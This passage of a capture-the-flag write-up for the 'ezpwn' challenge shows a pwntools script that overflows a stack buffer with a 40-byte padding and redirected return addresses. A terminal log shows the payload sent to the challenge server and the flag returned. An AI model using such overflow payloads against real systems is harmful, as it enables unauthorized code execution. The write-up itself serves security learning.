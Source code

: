 ```py
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def method2():

    pl = b'A'*offset + p64(0x0000000000401331) + p64(exe.sym.__dl_relocate_static_pie)

    sl(pl)

def exploit():

    global offset

    offset = 40
    method2()

    interactive()

if __name__ == '__main__':
  exploit()
```

## Get flag

```sh
alter ^ Sol in ~/CTFs/2025/EHCTF/ezpwn
$ ./xpl.py REMOTE challenge.ctf.ehc-fptu.club 48090
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to challenge.ctf.ehc-fptu.club on port 48090: Done
[DEBUG] Sent 0x39 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  31 13 40 00  00 00 00 00  │AAAA│AAAA│1·@·│····│
    00000030  1b 12 40 00  00 00 00 00  0a                        │··@·│····│·│
    00000039
[*] Switching to interactive mode
[DEBUG] Received 0x2f bytes:
    b'EHCTF{JU57_4_rAndOM_fUNC710N_XD_d8ff192d6a83}\n'
    b'\n'
EHCTF{JU57_4_rAndOM_fUNC710N_XD_d8ff192d6a83}
```
